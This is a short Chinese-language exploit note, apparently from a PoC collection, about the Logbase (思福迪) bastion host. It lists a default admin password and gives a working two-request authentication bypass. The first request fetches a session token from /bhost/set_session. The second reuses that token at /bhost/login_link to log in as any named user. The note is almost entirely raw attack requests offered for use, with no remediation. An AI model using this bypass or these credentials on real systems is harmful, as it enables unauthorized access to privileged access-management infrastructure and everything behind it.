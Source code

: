 # 思福迪堡垒机(Logbase)任意用户登录/默认口令

默认口令：admin/safetybase

poc：

```
POST /bhost/set_session HTTP/1.1
Host: target

u1=admin&m1=

{"result":true,"info":"123123123","ErrMsg":""}

```

获取info字段后带入如下请求的 a0 参数值中,uCode参数值为⽤户名：

```
POST /bhost/login_link HTTP/1.1
Host: xxx.xxx.xxx.xxx
a0=123123123&a1=&a10=2020-01-01+10:10:10&ha=ABCDDDD11JJJAADDDCCC&uCode=admin&vdcode=

```